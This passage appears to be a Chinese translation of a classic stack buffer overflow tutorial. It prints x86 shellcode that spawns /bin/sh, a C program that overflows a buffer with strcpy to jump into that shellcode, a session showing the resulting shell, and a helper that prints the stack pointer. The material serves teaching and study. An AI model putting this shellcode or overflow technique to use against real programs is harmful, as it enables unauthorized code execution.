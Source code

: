 ## 破解实战

现在把手头的工具都准备好. 我们已经有了shellcode. 我们
知道shellcode必须是被溢出的字符串的一部分. 我们知道必须把
返回地址指回缓冲区. 下面的例子说明了这几点:

overflow1.c

```
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() {
    char buffer[96];
    int i;
    long *long_ptr = (long *) large_string;

    for (i = 0; i < 32; i++)
        *(long_ptr + i) = (int) buffer;

    for (i = 0; i < strlen(shellcode); i++)
        large_string[i] = shellcode[i];

    strcpy(buffer,large_string);
}
```

```
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
```

如上所示, 我们用`buffer[]`的地址来填充`large_string[]`数组, shellcode就将会在`buffer[]`之中. 然后我们把shellcode复制到`large_string`字串的开头. `strcpy()`不做任何边界检查就会将`large_string`复制到`buffer`中去, 并且覆盖返回地址. 现在的返回地址就是我们shellcode的起始位置. 一旦执行到`main`函数的尾部, 在试图返回时就会跳到我们的shellcode中, 得到一个 shell.

我们所面临的问题是: 当试图使另外一个程序的缓冲区溢出的时候, 如何确定这个缓冲区(会有我们的shellcode)的地址在哪? 答案是: 对于每一个程序, 堆栈的起始地址都是相同的. 大多数程序不会一次向堆栈中压入成百上千字节的数据. 因此知道了堆栈的开始地址, 我们可以试着猜出这个要使其溢出的缓冲区在哪. 下面的小程序会打印出它的堆栈指针:

sp.c

```
unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}
void main() {
    printf("0x%x\n", get_sp());
}
```
